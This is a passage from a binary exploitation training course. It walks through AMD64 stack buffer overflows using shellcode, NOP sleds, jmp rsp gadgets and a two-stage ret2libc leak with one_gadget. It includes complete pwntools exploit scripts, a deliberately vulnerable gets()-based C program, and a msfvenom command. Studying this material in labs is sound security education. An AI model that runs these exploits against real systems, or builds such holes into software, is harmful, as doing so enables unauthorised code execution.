    mov al, 59            ; rax = 59 (execve syscall number)

    ; Execute
    syscall               ; Trigger syscall (NOT int 0x80!)
```

**Assemble and Extract Bytes (AMD64)**:

```bash
cd ~/exploit

# Or use this one-liner
for i in $(objdump -d shellcode -M intel | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

**Result** (23 bytes AMD64 shellcode):

```python
shellcode = b"\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xc0\xb0\x3b\x0f\x05"
```

**Test Shellcode Standalone (AMD64)**:

```python
#!/usr/bin/env python3
#~/exploit/6.py
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

# Generate shellcode with pwntools (preferred - handles arch automatically)
shellcode = asm(shellcraft.amd64.linux.sh())

#### Complete Exploit

**exploit1.py (AMD64)**:

```python
#!/usr/bin/env python3
"""
Stack Buffer Overflow Exploit for vuln1 (AMD64)

Technique: Direct ret2shellcode via stdin
Target: vuln1 (no protections, stdin-based input)

Run with: python exploit1.py
"""

from pwn import *

# Configuration
binary = './vuln1'
elf = ELF(binary)
context.binary = elf  # Sets arch=amd64 automatically
offset = 72  # 64 buffer + 8 saved RBP

# Solution: Move RSP away first with "sub rsp, 0x100"
stack_pivot = asm('sub rsp, 0x100')
shellcode = stack_pivot + asm(shellcraft.amd64.linux.sh())

def exploit():
    # Start process with ASLR disabled using setarch wrapper
    # env={} clears environment variables for consistent stack addresses
    p = process(['setarch', 'x86_64', '-R', binary], env={})

    # Get buffer address by analyzing a crash:
    # 1. Generate payload with dummy address:
    #    python3 -c "from pwn import *; ..." > payload.bin
    # 2. Run and get core dump:
    #    ulimit -c unlimited
    #    env -i setarch x86_64 -R ./vuln1 < payload.bin
    # 3. Analyze core to find actual buffer location:
    #    gdb ./vuln1 core
    #    RSP after ret shows where we are on stack
    #    Buffer = (saved RBP location) - 0x40
    #
    # Note: GDB adds ~0x60 bytes to stack even with env -i, so addresses
    # found in GDB need adjustment for standalone execution.
    buffer_addr = 0x7fffffffecc0

    # Build payload:
    # [NOP sled][stack_pivot + shellcode][padding][return address -> buffer]
    payload = b"\x90" * 16            # NOP sled for tolerance
    payload += shellcode              # Stack pivot + shellcode
    payload += b"A" * (offset - len(payload))  # Padding to fill offset
    payload += p64(buffer_addr)       # Return to start of buffer (8 bytes)

    log.info(f"Shellcode length: {len(shellcode)}")
    log.info(f"Total payload: {len(payload)}")
    log.info(f"Jumping to: {hex(buffer_addr)}")

    # Send payload via stdin
    p.sendline(payload)

    # Interact with shell
    p.interactive()

if __name__ == "__main__":
    exploit()
```

**Better Approach: Using jmp rsp Gadget (AMD64)** (More Reliable):

> [!TIP]
> Hardcoding stack addresses is fragile—addresses vary between GDB and normal execution,
> different terminals, environment sizes, etc. A `jmp rsp` or `call rsp` gadget provides
> a stable return target since RSP points to our controlled data after `ret`.

```python
#!/usr/bin/env python3
#~/exploit/exploit2.py
"""
ret2shellcode using jmp rsp gadget (AMD64)

This approach is more reliable than hardcoded stack addresses because:
- Works regardless of environment variable differences
- No need to guess exact stack layout
- RSP points to our shellcode right after ret executes
"""
from pwn import *

binary = './vuln1'
elf = ELF(binary)
context.binary = elf  # Sets arch=amd64

def find_jmp_rsp():
    """Find a jmp rsp or call rsp gadget in the binary"""
    # Search for jmp rsp (0xff 0xe4) or call rsp (0xff 0xd4)
    try:
        jmp_rsp = next(elf.search(asm('jmp rsp')))
        log.success(f"Found jmp rsp at {hex(jmp_rsp)}")
        return jmp_rsp
    except StopIteration:
        pass

    try:
        call_rsp = next(elf.search(asm('call rsp')))
        log.success(f"Found call rsp at {hex(call_rsp)}")
        return call_rsp
    except StopIteration:
        pass

    # Try ROPgadget as fallback
    log.warning("No jmp/call rsp in binary, trying ROPgadget...")
    # Run: ROPgadget --binary ./vuln1 | grep "jmp rsp\|call rsp"
    return None

def exploit():
    offset = 72  # 64 buffer + 8 saved RBP (AMD64)

    # Find jmp rsp gadget
    jmp_rsp = find_jmp_rsp()
    if not jmp_rsp:
        log.error("No jmp rsp gadget found! Use fixed address method instead.")
        return

    # Shellcode (placed AFTER return address)
    shellcode = asm(shellcraft.amd64.linux.sh())

    # Payload layout:
    # [padding (72 bytes)][jmp_rsp addr (8 bytes)][nop sled][shellcode]
    # After ret: RIP = jmp_rsp, RSP points to nop sled
    payload = b"A" * offset           # Fill buffer + saved RBP
    payload += p64(jmp_rsp)           # Return to jmp rsp (8 bytes!)
    payload += b"\x90" * 16           # NOP sled (RSP lands here)
    payload += shellcode              # Shellcode executes

    # Launch and send via stdin
    p = process(binary)
    p.sendline(payload)
    p.interactive()

if __name__ == "__main__":
    exploit()
```

### Debugging Your Exploit

When your exploit doesn't work (it won't on the first try!), use these systematic debugging techniques.

**Method 1: GDB Attach with pwntools**

```python
#!/usr/bin/env python3
#~/exploit/exploit_debug.py
from pwn import *

elf = ELF('./vuln1')
context.binary = elf  # Sets arch=amd64

# Start process with ASLR disabled and clean env for learning
p = process('./vuln1', aslr=False, env={})

# Print PID and pause - attach GDB manually in another terminal/SSH session
log.info(f"Process PID: {p.pid}")
log.info(f"Attach GDB in another terminal: gdb -p {p.pid}")
input("Press Enter after attaching GDB and setting breakpoints...")

# Press Enter in Terminal 1 to send payload
```

**Example Debug Session Output**:

After hitting the breakpoint at `ret`, you'll see something like:

```
pwndbg> # At ret instruction - examine the stack
pwndbg> x/20gx $rsp-0x60
0x7ffd11d25cb8: 0x0000000000403e00      0x00007ffd11d25d10
0x7ffd11d25cc8: 0x000000000040118e      0x4141414141414141  <- Buffer starts here
0x7ffd11d25cd8: 0x4141414141414141      0x4141414141414141
0x7ffd11d25ce8: 0x4141414141414141      0x4141414141414141
0x7ffd11d25cf8: 0x4141414141414141      0x4141414141414141
0x7ffd11d25d08: 0x4141414141414141      0x4141414141414141  <- Saved RBP (overwritten)
0x7ffd11d25d18: 0x0000deadbeefcafe      0x00007ffd11d25d00  <- Return address (overwritten)
```

**Interpreting the output**:

- Buffer address: `0x7ffd11d25cd0` (first A's at offset 0x8 from 0x7ffd11d25cc8)
- Our A's (`0x4141414141414141`) fill 64 bytes of buffer + 8 bytes of saved RBP
- Return address at `0x7ffd11d25d18` contains our value `0xdeadbeefcafe`
- Offset confirmed: 72 bytes (64 buffer + 8 saved RBP) before return address

**Method 2: Step-by-Step GDB Analysis (AMD64)**

```bash

# Set breakpoint at ret instruction (vulnerable_function+74)
pwndbg> break *vulnerable_function+74
pwndbg> run

# Find buffer address:
pwndbg> print $rbp - 0x40             # Buffer is at [rbp - 0x40] before overflow

# For automated testing with payload file:
#pwndbg> run < payload.bin
```

**Common Debugging Scenarios**:

| Symptom                            | Likely Cause                           | Debug Command            |
| ---------------------------------- | -------------------------------------- | ------------------------ |
| Crash at wrong address             | Offset incorrect                       | `cyclic -l <crash_addr>` |
| Crash at correct addr but no shell | Shellcode bad or wrong location        | `x/20i <shellcode_addr>` |
| "Illegal instruction"              | Bad shellcode or architecture mismatch | Check `context.binary`   |
| Segfault in libc                   | **Stack alignment (AMD64!)**           | Add extra `ret` gadget   |
| Works in GDB, fails outside        | Environment variable difference        | `setarch -R ./vuln`      |

**The GDB vs Real Execution Problem**:

The stack layout differs between GDB and normal execution due to environment variables:

```bash

# In GDB, minimize environment
gdb -q ./vuln1
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) show env                        # Should be minimal

# Or use this pwntools trick to match addresses
p = process('./vuln1', env={})        # Empty environment
```

**Essential pwndbg Commands for Exploit Development (AMD64)**:

```bash

# Address finding
pwndbg> vmmap                         # Memory map (find stack, libc, etc.)
pwndbg> search -s "/bin/sh"           # Find string in memory
pwndbg> got                           # Show GOT entries

# Payload verification
pwndbg> hexdump $rsp 100              # View your payload on stack
pwndbg> telescope $rsp 20             # Smart stack display (shows dereferences)

# Execution tracing
pwndbg> nearpc                        # Show instructions around PC
pwndbg> context                       # Full context display
pwndbg> retaddr                       # Show return addresses on stack

# Exploit helpers
pwndbg> rop                           # Find ROP gadgets (slow)
pwndbg> checksec                      # Binary protections
```

**Debugging Checklist** (Use Before Asking for Help!):

- [ ] **Offset verified?** Use `cyclic` pattern, confirm with `cyclic -l` (use full 8-byte value on AMD64!)
- [ ] **Addresses correct?** Double-check with `print &function` in GDB
- [ ] **Architecture matches?** `context.arch` = 'amd64', use `p64()` not `p32()`
- [ ] **Endianness correct?** x86/x64 = little endian = `p64()`
- [ ] **No bad characters?** Check for `\x00`, `\x0a`, `\x0d` in payload
- [ ] **Stack executable?** `checksec` should show "NX disabled"
- [ ] **ASLR disabled for this run?** Use `setarch -R` or GDB's default
- [ ] **Using same environment?** `env -i` or `env={}` in pwntools
- [ ] **Shellcode tested standalone?** `run_shellcode()` in pwntools
- [ ] **Stack aligned?** AMD64 requires **16-byte alignment** before `call`

### Environment Hygiene (Critical for Exploit Development)

Stack addresses differ between environments due to variables like `LINES`, `COLUMNS`, `PWD`, `TERM`, and program name length. This is the #1 cause of "works in GDB, fails outside" issues.

**The Problem**:

```text
Normal execution:     GDB execution:           Different terminal:
┌─────────────────┐   ┌─────────────────┐      ┌─────────────────┐
│ env vars (big)  │   │ env vars + GDB  │      │ different env   │
│ PWD=/long/path  │   │ extra vars      │      │ COLUMNS=120     │
├─────────────────┤   ├─────────────────┤      ├─────────────────┤
│ argv, argc      │   │ argv, argc      │      │ argv, argc      │
├─────────────────┤   ├─────────────────┤      ├─────────────────┤
│ Stack           │   │ Stack           │      │ Stack           │
│ buffer @ 0xABC  │   │ buffer @ 0xA00  │      │ buffer @ 0xB00  │
└─────────────────┘   └─────────────────┘      └─────────────────┘
       ↑ Different addresses due to env var size!
```

**Solution: Force Consistent Environment**:

```bash

# Method 4: Disable ASLR per-process (pwntools, best for learning)
p = process('./vuln', aslr=False, env={})
```

**The "It Works on My Machine" Checklist**

- Buffering Hell
  - Local `process()` typically uses PTY (unbuffered).
  - Remote `nc` or sockets are often fully buffered or line-buffered.
  - Always use `p.recvuntil(b'prompt')` before sending. Never rely on `sleep()` unless absolutely necessary.
- IO Handling
  - `p.recv()` is dangerous—it returns _some_ data, not _all_ data.
  - `p.clean()` removes unread data (useful before sending payload).
  - `p.sendline()` adds `\n`. Ensure target expects `\n` and not just raw bytes.
- Environment Variables
  - Remote servers have different `env` vars than your GDB session.
  - This shifts stack addresses by +/- 0x100 bytes.
  - Never rely on exact stack addresses (hardcoded `0x7ffffff...`).
  - Always use leaks (libc/stack) and relative offsets, or NOP sleds.

**GDB Environment Matching**:

```bash

# In GDB, clear problematic variables
gdb -q ./vuln
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) unset env TERM
(gdb) show env          # Verify minimal environment
(gdb) run

# Or start GDB with clean environment
env -i gdb -q ./vuln
```

**pwntools Best Practice for Learning**:

```python
#!/usr/bin/env python3
from pwn import *

context.binary = ELF('./vuln')

# Compare stack addresses with different environments
env -i ./vuln          # Note buffer address
./vuln                 # Different address!
env -i PWD=x ./vuln    # Yet another address

# GDB typically adds ~0x60-0x100 bytes to stack
```

> [!WARNING]
> **Always use `env -i` or `env={}` when developing exploits with hardcoded addresses!**
> Once your exploit works, convert to using leaks for portability.

#### Exercise: Exploit vuln1 to get a shell

**Steps**:

1. **Compile Target (AMD64)**:

   ```bash
   make training-shellcode SOURCE=vuln1.c BINARY=vuln1
   #gcc -g -O0 -fno-stack-protector -z execstack -no-pie vuln1.c -o vuln1
   #checksec --file=./vuln1
   ```

2. **Find Offset (AMD64 uses 8-byte patterns)**:

   ```bash
   pwn cyclic 200
   # copy output
   gdb ./vuln1
   run
   # paste as input
   # Note the 4-byte crash value for RIP
   cyclic -n 4 -l <4_byte_crash_value>
   ```

3. **Find Stack Address (or jmp rsp gadget)**:

   ```bash
   ROPgadget --binary ./vuln1 | grep "jmp rsp"
   ```

4. **Build Exploit (AMD64)**:
   - NOP sled (50 bytes)
   - AMD64 shellcode (use `asm(shellcraft.amd64.linux.sh())`)
   - Padding to offset (72 bytes typical)
   - Return address (8 bytes - use `p64()`)

5. **Test Exploit**:
   ```bash
   python3 exploit1.py
   # Should get shell
   id
   whoami
   ```

**Success Criteria**:

- Successfully overflow return address
- Shellcode executes
- Shell obtained
- Can run commands (id, whoami, ls)

#### Week 4 Deliverable Exercise: From Minimized Crash to Exploit

Use one of your **Week 4 deliverables** (reproduction fidelity + minimized crash) and turn it into a working Day 1 exploit.

**Inputs from Week 4**:

- A minimized crash input (file or stdin blob)
- An exact reproduction command (argv + input path)
- Your reproduction notes (OS/libc, environment variables, ASLR settings)

**Task**:

1. Reproduce the crash reliably (>= 9/10) using the exact same input path and environment.
2. Generate a core dump and confirm you control RIP.
3. Replace your crashing bytes with a cyclic pattern and recover the exact offset.
4. Build an exploit that spawns a shell (ret2shellcode for Day 1).

**Success Criteria**:

- Offset derived from the crash (not guessed)
- Exploit works multiple times in a row

#### Week 2 Integration Exercise: AFL++ Crash -> Minimize -> Exploit

Reuse the Week 2 AFL++ workflow, but target a Week 5 binary.

**Goal**: produce a fuzzer-found crashing input for a Day 1 style target, minimize it, then turn it into a working exploit.

**Task**:

1. Build the target with AFL++ instrumentation.
2. Run `afl-fuzz` until you get a crash.
3. Minimize the crashing input with `afl-tmin`.
4. Use the minimized crash to recover the offset and build a working exploit.

**Success Criteria**:

- A fuzzer-generated input crashes the program
- `afl-tmin` produces a smaller reproducer that still crashes
- You can transform the minimized input into a working exploit

# Verify shellcode is correct AMD64 shellcode
python3 -c "from pwn import *; context.arch='amd64'; print(asm(shellcraft.amd64.linux.sh()).hex())"

#### Common Mistakes to Avoid

1. **Forgetting endianness**: x86/x64 is little-endian. `0xdeadbeef` becomes `\xef\xbe\xad\xde`
2. **Wrong architecture**: AMD64 shellcode won't work in 32-bit process (and vice versa!)
3. **Using p32() on AMD64**: Always use `p64()` for 64-bit binaries
4. **Bad characters**: Null bytes (`\x00`) terminate strings in `strcpy`. Other common bad chars: `\x0a` (newline), `\x0d` (carriage return), `\x20` (space)
5. **Stack alignment**: AMD64 requires **16-byte alignment before `call`** for some libc functions (add extra `ret` gadget if crashes in libc)
6. **Environment differences**: Stack addresses differ between GDB and normal execution (due to environment variables)

#### Exercise: Removing Null Bytes from Shellcode

**Why This Matters**: String functions like `strcpy()`, `gets()`, and `scanf("%s")` stop at null bytes. If your shellcode contains `\x00`, it gets truncated.

**Common Null Byte Sources**:

| Instruction                 | Bytes                  | Problem        | Solution                   |
| --------------------------- | ---------------------- | -------------- | -------------------------- |
| `mov rax, 0`                | `48 c7 c0 00 00 00 00` | Immediate 0    | `xor eax, eax` → `31 c0`   |
| `mov rdi, 0x68732f6e69622f` | Contains nulls         | String padding | Use `push`/`mov` sequences |
| `mov al, 59`                | `b0 3b`                | No nulls!      | OK as-is                   |
| `syscall`                   | `0f 05`                | No nulls       | OK as-is                   |

**Task**: Convert this null-containing shellcode to null-free:

```nasm
; Original (contains null bytes)
; execve("/bin/sh", NULL, NULL)
BITS 64

section .text
global _start

_start:
    mov rax, 59          ; 48 c7 c0 3b 00 00 00 - CONTAINS NULLS!
    mov rdi, binsh       ; 48 bf XX XX XX XX XX XX XX XX - address likely has nulls
    mov rsi, 0           ; 48 c7 c6 00 00 00 00 - CONTAINS NULLS!
    mov rdx, 0           ; 48 c7 c2 00 00 00 00 - CONTAINS NULLS!
    syscall

section .data
binsh: db "/bin/sh", 0   ; Contains null terminator!
```

**Solution: Null-Free Version**:

```nasm
; Null-free execve("/bin/sh", NULL, NULL)
BITS 64

section .text
global _start

_start:
    ; Clear registers without using immediate 0
    xor eax, eax         ; 31 c0 - clears RAX (zero-extends to 64-bit)
    xor esi, esi         ; 31 f6 - clears RSI
    xor edx, edx         ; 31 d2 - clears RDX

    ; Push "/bin/sh" onto stack (reverse order, no null in code)
    ; "/bin/sh" = 0x68732f6e69622f2f with extra / ("/bin//sh")
    push rax             ; Null terminator on stack
    mov rdi, 0x68732f2f6e69622f  ; "/bin//sh" (no embedded nulls)
    push rdi
    mov rdi, rsp         ; RDI = pointer to "/bin//sh\0"

    ; Set syscall number without nulls
    mov al, 59           ; b0 3b - only sets AL, RAX already 0

    syscall              ; 0f 05 - execute!
```

**pwntools Verification**:

```python

# Check for null bytes in shellcode
shellcode = asm('''
    xor eax, eax
    xor esi, esi
    xor edx, edx
    push rax
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    mov al, 59
    syscall
''')

# Verify no null bytes
if b'\x00' in shellcode:
    print(f"[!] FAIL: Shellcode contains null bytes!")
    print(f"    Position: {shellcode.index(b'\\x00')}")
    print(f"    Bytes: {shellcode.hex()}")
else:
    print(f"[+] SUCCESS: Null-free shellcode ({len(shellcode)} bytes)")
    print(f"    {shellcode.hex()}")

# Test it
print("\n[*] Testing shellcode...")
run_shellcode(shellcode).interactive()
```

**Null-Byte Elimination Techniques**:

| Original                     | Null-Free Replacement          | Notes                   |
| ---------------------------- | ------------------------------ | ----------------------- |
| `mov rax, 0`                 | `xor eax, eax`                 | Zero-extends to 64-bit  |
| `mov rdi, 0`                 | `xor edi, edi`                 | Zero-extends to 64-bit  |
| `mov rax, small_num`         | `xor eax, eax; mov al, num`    | For values < 256        |
| `mov rax, imm64`             | `push imm32; pop rax`          | If value fits in 32-bit |
| String in .data              | `push` string onto stack       | Build string at runtime |
| `jmp label` with null offset | Use short jumps or restructure | Relative offset issue   |

**Identifying Bad Characters**:

```python
#~/exploit/8.py
from pwn import *

# Find all bad characters in your shellcode
def find_bad_chars(shellcode, bad_chars=b'\x00\x0a\x0d\x20'):
    found = []
    for i, byte in enumerate(shellcode):
        if bytes([byte]) in bad_chars:
            found.append((i, hex(byte)))
    return found

shellcode = asm(shellcraft.sh())
bad = find_bad_chars(shellcode)
if bad:
    print(f"Bad characters at: {bad}")
else:
    print("Shellcode is clean!")
```

> [!TIP]
> **Use pwntools `shellcraft` with encoders for complex shellcode**:
>
> ```python
> # Automatically generate null-free shellcode
> shellcode = asm(shellcraft.amd64.linux.sh())
> # Or use msfvenom: msfvenom -p linux/x64/exec CMD=/bin/sh -f python -b '\x00'
> ```

**Debugging Tips**:

```bash

# Generate core dumps for post-crash analysis
ulimit -c unlimited
./binary $(python3 -c "print('A'*200)")
gdb ./binary core

### Key Takeaways

1. **Stack overflows overwrite return address**: Control RIP (AMD64) / EIP (x86)
2. **Finding offset is critical**: Use cyclic patterns (8-byte on AMD64!)
3. **NOP sleds improve reliability**: Don't need exact address
4. **Stack must be executable**: `-z execstack` required for shellcode
5. **Per-process ASLR disable**: Use `setarch -R` or GDB, NOT system-wide
6. **AMD64 uses 8-byte addresses**: Always use `p64()` not `p32()`

### Discussion Questions

1. Why does a NOP sled improve exploit reliability?
2. What happens if ASLR is enabled but other protections are disabled?
3. How would you modify your exploit if the vulnerable function used `read()` instead of `gets()`?
4. What are the limitations of this technique in real-world scenarios?
5. Why is AMD64 stack alignment (16-byte) important for exploit reliability?

## Day 2: Return-to-libc and Introduction to ROP

- **Goal**: Learn code-reuse exploitation when stack is not executable.
- **Activities**:
  - _Reading_:
    - "The Shellcoder's Handbook" 2nd edition - Chapter 2: "Stack Overflows"
    - [Return-to-libc Paper](https://css.csail.mit.edu/6.858/2014/readings/return-to-libc.pdf)
    - [The Geometry of Innocent Flesh on the Bone](https://hovav.net/ucsd/dist/geometry.pdf) - Original ROP paper (Shacham, 2007)
  - _Online Resources_:
    - [ROP Emporium](https://ropemporium.com/) - Practice challenges (start with ret2win)
    - [ROPgadget Tutorial](https://github.com/JonathanSalwan/ROPgadget)
  - _Tool Setup_:
    - Same VM as Day 1
    - Enable NX bit (disable execstack)
  - _Exercise_:
    - Exploit with ret2libc technique
    - Find gadgets manually before using ROPgadget
    - Build and debug a ROP chain

### Context: Router Exploitation (MIPS/ARM)

- Return-to-libc is a staple in embedded device exploitation (routers, IoT).
- Many of these devices run on MIPS or ARM architectures where stack execution is often disabled or cache coherency issues make shellcode unreliable.
- Attackers frequently use `system()` or `execve()` from libc to spawn a shell, just like we will do today.

### Deliverables

- **Binary**: `vuln2` built with NX enabled and verified with `checksec`
- **Leak stage**: Stage 1 leak works and returns to `main`
- **Libc base**: `libc.address` correctly computed from the leak
- **Final stage**: Stage 2 gains code execution (shell)
- **Notes**: gadgets + alignment rationale, plus the parsed leak value

### Non-Executable Stack (NX/DEP)

**What is NX?**:

- NX (No eXecute) bit marks stack as non-executable
- Also called DEP (Data Execution Prevention) on Windows
- Shellcode on stack cannot execute
- Need alternative exploitation strategy

**Enable NX for Practice (AMD64)**:

```bash

### Return-to-libc Technique

**Concept**:

- Instead of executing shellcode, call existing functions
- `libc` provides useful functions (system, execve, etc.)
- Chain function calls to achieve goal
- No shellcode needed!

> [!IMPORTANT]
> **AMD64 Calling Convention**: Unlike x86 where arguments go on the stack,
> AMD64 passes the first 6 arguments in registers: **RDI, RSI, RDX, RCX, R8, R9**.
> This means we need **gadgets to load registers** before calling functions!

### The Canonical Exploit Pattern: Leak → Compute → Exploit

> [!CAUTION]
> **Never hardcode libc addresses!** Even with ASLR disabled for testing,
> addresses change between libc versions and systems. Always use the
> **leak → compute base → build ROP** pattern.

**The Real-World Pattern**:

```text
1. Stage 1: Leak a libc address (e.g., puts@got)
2. Compute libc base: libc.address = leaked_addr - libc.symbols['puts']
3. Stage 2: Build ROP chain with calculated addresses
4. Exploit: Call system("/bin/sh") or execve
```

**Why This Matters**:

- Works even with ASLR enabled (after one leak)
- Portable across different libc versions (with correct libc file)
- This is how real exploits work—not "paste address from GDB"

### Required Lab: Libc Leak via ROP (AMD64)

This is the **most important skill** in basic exploitation. Even with ASLR "disabled"
in labs, always practice the leak pattern.

**vuln2.c** (Vulnerable program for leak practice):

```c
#include <stdio.h>
#include <string.h>

// Gadget functions - ensure useful ROP gadgets exist in binary
// These create pop rdi; ret and other gadgets we need
void gadgets() {
    __asm__ volatile (
        "pop %rdi; ret\n"    // pop rdi; ret - for first argument
        "pop %rsi; ret\n"    // pop rsi; ret - for second argument
        "pop %rdx; ret\n"    // pop rdx; ret - for third argument
        "ret\n"              // ret - for stack alignment
    );
}

void vulnerable() {
    char buffer[64];
    printf("Enter input: ");
    fflush(stdout);
    gets(buffer);  // Vulnerable! Allows overflow and null bytes
    printf("You entered: %s\n", buffer);
}

int main() {
    setvbuf(stdout, NULL, _IONBF, 0);  // Disable buffering for reliable I/O
    puts("ROP Practice - ret2libc with leak");
    vulnerable();
    puts("Done!");  // Important: binary must import puts for our leak!
    return 0;
}
```

**Compile (AMD64, NX enabled)**:

```bash
cd ~/exploit
make disabled SOURCE=vuln2.c BINARY=vuln2

# Verify: NX enabled, No canary, No PIE, SHSTK/IBT disabled
```

**Complete Leak-Based Exploit (AMD64)**:

```python
#!/usr/bin/env python3
#~/exploit/9.py
"""
Canonical ret2libc with leak - AMD64

This is THE pattern to learn. It works on real systems with ASLR.
Pattern: leak → compute libc base → build ROP → shell

Step 1: ROP to puts(puts@got), return to main
Step 2: Parse leaked puts address
Step 3: Compute libc.address = leak - libc.symbols['puts']
Step 4: Build final ROP: system("/bin/sh")
"""
from pwn import *

# ============ SETUP ============
binary_path = './vuln2'
elf = ELF(binary_path)
context.binary = elf  # Sets arch=amd64

# For remote: download from target or use libc database
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# AMD64 needs gadgets to load registers before function calls
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]  # Almost always needed
ret = rop.find_gadget(['ret'])[0]  # For stack alignment

log.info(f"pop rdi; ret @ {hex(pop_rdi)}")
log.info(f"ret @ {hex(ret)}")

# ============ ADDRESSES ============
puts_plt = elf.plt['puts']      # PLT stub to call puts
puts_got = elf.got['puts']      # GOT entry (contains libc address after first call)
main_addr = elf.symbols['main'] # Return here after leak

log.info(f"puts@plt: {hex(puts_plt)}")
log.info(f"puts@got: {hex(puts_got)}")
log.info(f"main: {hex(main_addr)}")

# ============ EXPLOIT ============
OFFSET = 72  # 64 buffer + 8 saved RBP

def exploit():
    # Can run locally or switch to remote
    if args.REMOTE:
        p = remote('target', 1337)
    else:
        p = process(binary_path)

    # ========== STAGE 1: LEAK LIBC ADDRESS ==========
    log.info("Stage 1: Leaking libc address via puts(puts@got)")

    # Wait for prompt
    p.recvuntil(b'Enter input: ')

    # AMD64 ROP: pop rdi loads argument, then call puts
    # Stack alignment: add ret gadget if needed
    stage1 = flat(
        b'A' * OFFSET,
        p64(ret),           # Stack alignment (16-byte before call)
        p64(pop_rdi),       # pop rdi; ret
        p64(puts_got),      # RDI = puts@got (address to leak)
        p64(puts_plt),      # Call puts(puts@got) - prints libc address!
        p64(main_addr),     # Return to main for stage 2
    )

    p.sendline(stage1)

    # Parse the leak
    # Our ROP chain: puts(puts@got) → main, so output is:
    # "You entered: [overflow]\n[LEAKED_ADDR]\nROP Practice..."
    # Skip until after our payload echo, then read leaked address line
    p.recvuntil(b'You entered: ')
    p.recvuntil(b'\n')  # Skip to end of "You entered" line

    # Read leaked bytes - puts adds a newline, so read until that newline
    leaked_bytes = p.recvline().strip()  # Remove trailing newline from puts

    # Handle the leak (puts stops at null bytes, pad if needed)
    leaked_puts = u64(leaked_bytes.ljust(8, b'\x00'))
    log.success(f"Leaked puts@libc: {hex(leaked_puts)}")

    # ========== COMPUTE LIBC BASE ==========
    libc.address = leaked_puts - libc.symbols['puts']
    log.success(f"Calculated libc base: {hex(libc.address)}")

    # Verify libc base looks reasonable (should end in 000 due to page alignment)
    if libc.address & 0xfff != 0:
        log.warning("Libc base not page-aligned - leak may be wrong!")

    # ========== STAGE 2: ONE_GADGET APPROACH ==========
    # Modern libc lacks clean pop rdx gadgets, so we use one_gadget
    # Run: one_gadget /lib/x86_64-linux-gnu/libc.so.6
    # Constraints vary - try each until one works
    log.info("Stage 2: Using one_gadget")

    # One_gadget offsets - UPDATE THESE for your libc version!
    # Run: one_gadget /lib/x86_64-linux-gnu/libc.so.6
    one_gadgets = [
        0xef4ce,  # execve("/bin/sh", rbp-0x50, r12) - needs rbx=0, r12=0
        0xef52b,  # execve("/bin/sh", rbp-0x50, [rbp-0x78]) - needs rax=0
        0x583ec,  # posix_spawn constraints
        0x583f3,  # posix_spawn constraints
    ]

    # Try the second one_gadget (0xef52b) - needs rax=NULL
    # If first doesn't work, try index 1, 2, 3...
    one_gadget = libc.address + one_gadgets[1]
    log.info(f"one_gadget @ {hex(one_gadget)}")

    # Wait for prompt (program returned to main, runs vulnerable() again)
    p.recvuntil(b'Enter input: ')

    # For one_gadget, we need valid RBP (rbp-0x50 must be writable)
    # Our overflow corrupted RBP to 0x4141...
    # Fix: set RBP to a writable address (like stack) before one_gadget
    libc_rop = ROP(libc)

    # Find gadgets
    pop_rax = libc_rop.find_gadget(['pop rax', 'ret'])
    pop_rbx = libc_rop.find_gadget(['pop rbx', 'ret'])
    pop_r12 = libc_rop.find_gadget(['pop r12', 'ret'])
    pop_rbp = libc_rop.find_gadget(['pop rbp', 'ret'])

    # Use a writable address for RBP - use a known writable section
    # .bss section in the binary is always writable
    writable_addr = elf.bss() + 0x200  # Some offset into .bss

    stage2 = b'A' * OFFSET
    stage2 += p64(ret)           # Stack alignment

    # Fix RBP to point to writable memory (CRITICAL for one_gadget!)
    if pop_rbp:
        stage2 += p64(pop_rbp[0])
        stage2 += p64(writable_addr + 0x80)  # rbp = writable addr + margin

    # Set rax = 0 (for one_gadget constraints)
    if pop_rax:
        stage2 += p64(pop_rax[0])
        stage2 += p64(0)         # rax = NULL

    # Set rbx = 0 and r12 = 0 (for other one_gadget constraints)
    if pop_rbx:
        stage2 += p64(pop_rbx[0])
        stage2 += p64(0)         # rbx = NULL
    if pop_r12:
        stage2 += p64(pop_r12[0])
        stage2 += p64(0)         # r12 = NULL

    log.info(f"RBP set to writable: {hex(writable_addr + 0x80)}")
    stage2 += p64(one_gadget)    # Jump to one_gadget

    p.sendline(stage2)

    # Got shell!
    log.success("Shell incoming!")
    p.interactive()

if __name__ == '__main__':
    exploit()
```

**Key Points**:

1. **Never use `p.libs()` in final exploits** - it only works locally for debugging
2. **Always leak, then compute** - this works with ASLR enabled
3. **Stack alignment** - AMD64 requires 16-byte alignment before `call`; add `ret` gadget
4. **Return to main** - allows second stage after leak
5. **Fix RBP for one_gadget** - buffer overflows corrupt RBP; one_gadgets need `rbp-0xXX` writable
6. **Modern libc has CET** - SHSTK/IBT enabled; `system()` may fail, use one_gadget instead

### AMD64 Stack Alignment

> [!CAUTION]
> **AMD64 Failure Mode**: If your exploit crashes with SIGSEGV inside libc
> (e.g., in `movaps` instruction), you have a **stack alignment problem**.
> The stack must be 16-byte aligned before any `call` instruction.

**The Problem**:

- System V AMD64 ABI requires:
  - Stack must be 16-byte aligned BEFORE the 'call' instruction
  - 'call' pushes 8-byte return address → stack becomes misaligned
  - Function prologue (push rbp) realigns it
- When ROP chains skip prologues, alignment breaks!

**The Fix - Always Include `ret` Gadget**:

```python

# WRONG - may crash in libc due to misalignment
payload = flat(
    b'A' * offset,
    p64(pop_rdi),
    p64(binsh),
    p64(system),  # Crashes with movaps SIGSEGV!
)

# CORRECT - ret gadget aligns stack
ret = rop.find_gadget(['ret'])[0]
payload = flat(
    b'A' * offset,
    p64(ret),      # ← Stack alignment fix!
    p64(pop_rdi),
    p64(binsh),
    p64(system),   # Works on older libc!
)
```

> [!WARNING]
> **Modern libc (glibc 2.34+) has Intel CET enabled!** Even with correct alignment,
> `system()` may still crash due to Shadow Stack (SHSTK) and Indirect Branch Tracking (IBT).
> Check with `checksec`: if `SHSTK: Enabled` and `IBT: Enabled`, use **one_gadget** instead.

**When Alignment Isn't Enough (CET)**:

```python

# Solution: Use one_gadget with RBP fix instead of system()
